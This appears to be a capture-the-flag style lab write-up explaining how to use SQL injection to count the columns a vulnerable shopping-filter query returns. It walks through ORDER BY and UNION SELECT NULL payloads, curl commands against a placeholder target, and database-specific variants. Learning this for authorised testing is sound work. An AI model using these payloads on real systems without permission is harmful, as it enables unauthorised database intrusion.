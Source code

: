 # SQL injection UNION attack, determining the number of columns returned by the query — Practitioner

**Status:** Solved

---

## Goal

Use SQL injection to determine the exact number of columns returned by the vulnerable query using UNION-based techniques.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Test for SQL injection**
   - Confirm vulnerability with a basic test:
```
   /filter?category=Gifts'
```
   - You should see an error or unusual behavior

3. **Method 1: ORDER BY technique**
   - Use ORDER BY to determine column count
   - Start with 1 and increment:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
   Gifts' ORDER BY 4--
   Gifts' ORDER BY 5--
```
   - Continue until you get an error
   - If ORDER BY 3 works but ORDER BY 4 fails → 3 columns

4. **Execute ORDER BY enumeration**
```bash
   curl -s "https://TARGET/filter?category=Gifts'+ORDER+BY+1--"
   curl -s "https://TARGET/filter?category=Gifts'+ORDER+BY+2--"
   curl -s "https://TARGET/filter?category=Gifts'+ORDER+BY+3--"
   curl -s "https://TARGET/filter?category=Gifts'+ORDER+BY+4--"
```
   - Watch for error messages or empty responses

5. **Method 2: UNION SELECT NULL technique**
   - Start with one NULL and add more:
```
   Gifts' UNION SELECT NULL--
   Gifts' UNION SELECT NULL,NULL--
   Gifts' UNION SELECT NULL,NULL,NULL--
   Gifts' UNION SELECT NULL,NULL,NULL,NULL--
```
   - First successful query reveals column count
   - NULL is type-safe (works with any data type)

6. **Execute UNION SELECT enumeration**
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL--"
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,NULL--"
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--"
```
   - Stop when page loads without error

7. **Verify the result**
   - Once you find the correct number, the page loads normally
   - No database errors appear
   - Lab solves automatically when you succeed

---

## Example scenario

Testing with ORDER BY:
```
Gifts' ORDER BY 1--  → Page loads ✓
Gifts' ORDER BY 2--  → Page loads ✓
Gifts' ORDER BY 3--  → Page loads ✓
Gifts' ORDER BY 4--  → Error/No results ✗

Conclusion: 3 columns
```

Confirming with UNION SELECT:
```
Gifts' UNION SELECT NULL--             → Error ✗
Gifts' UNION SELECT NULL,NULL--        → Error ✗
Gifts' UNION SELECT NULL,NULL,NULL--   → Success ✓

Confirmed: 3 columns
```

---

## Understanding each method

**ORDER BY method:**
- **How it works**: Sorts result by column number
- **Pros**: Fast, requires fewer requests
- **Cons**: May be blocked by WAFs, less stealthy
- **When to use**: Quick initial testing
- **Error behavior**: "Unknown column" or similar when number exceeds column count

**UNION SELECT NULL method:**
- **How it works**: Attempts to combine queries with matching columns
- **Pros**: More reliable, type-safe with NULL
- **Cons**: Requires more requests
- **When to use**: When ORDER BY is blocked or for confirmation
- **Error behavior**: "The used SELECT statements have a different number of columns"

---

## Why NULL is important

**NULL advantages:**
- Compatible with ANY data type (string, int, date, etc.)
- Doesn't cause type mismatch errors
- Safe for blind enumeration
- Works across all database systems

**Alternatives (less safe):**
- Using numbers: `UNION SELECT 1,2,3` (fails if column is string)
- Using strings: `UNION SELECT 'a','b','c'` (fails if column is numeric)
- NULL avoids these issues

---

## Database-specific considerations

**Oracle:**
- Must include `FROM dual`:
```
Gifts' UNION SELECT NULL FROM dual--
Gifts' UNION SELECT NULL,NULL FROM dual--
```

**MySQL:**
- Can use `#` for comments:
```
Gifts' ORDER BY 1#
Gifts' UNION SELECT NULL,NULL#
```

**All databases:**
- Standard `--` works universally
- Add space after `--` for safety: `-- ` or use `--+`

---

## Common errors and meanings

| Error Message | Meaning |
|---------------|---------|
| "Unknown column '4' in 'order clause'" | Too many columns in ORDER BY |
| "The used SELECT statements have different number of columns" | UNION column count mismatch |
| "Conversion failed" | Type mismatch (shouldn't happen with NULL) |
| "Syntax error near '--'" | Comment not working, try different syntax |

---

## Tips for success

- Start small and increment (don't jump to high numbers)
- Use consistent comment syntax throughout testing
- If one method is blocked, try the other
- Document your findings (what worked, what didn't)
- Most web apps have 2-10 columns (rarely more)

---

**SQLi Lab 13 Complete ✓**